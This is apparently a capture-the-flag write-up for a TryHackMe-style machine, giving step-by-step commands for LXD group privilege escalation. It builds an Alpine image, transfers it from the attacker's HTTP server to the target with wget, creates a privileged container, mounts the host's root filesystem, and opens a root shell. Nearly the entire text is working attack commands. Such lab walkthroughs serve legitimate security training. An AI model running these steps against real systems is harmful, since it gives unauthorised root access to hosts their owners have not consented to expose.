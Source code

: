 I used method linked above

So, first on our machine (kali/parrot/attackbox) we clone `lxd-alpine-builder` and go into that directory
```
$ git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
```

Then, build the image
```
$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
$ sudo ./build-alpine -a i686
```

We need to move it to attacked machine - I use python web server

```
$ cd ../
$ python3 -m http.server 8000
```

Then, on attacked machine go to home dir and clone whole content of `lxd-alpine-builder` directory from attacking machine
```
$ wget -m http://[Your THM IP]:8000/lxd-alpine-builder
```

Go into directory signed with your ip and then to `lxd-alpine-builder` and import image
```
$ lxc image import ./alpine*.tar.gz --alias myimage
```

Initialize `lxd`
```
$ lxd init
```

And create container from image with `security.privileged` option
```
$ lxc init myimage mycontainer -c security.privileged=true
```

Then, mount `/` dir of attacked machine into `lxd` container
```
$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

And last - start the container and shell to it
```
$ lxc start mycontainer
$ lxc exec mycontainer /bin/sh
```

Now we are root in `lxd` container - go to `/mnt/root`
```
# cd /mnt/root
```
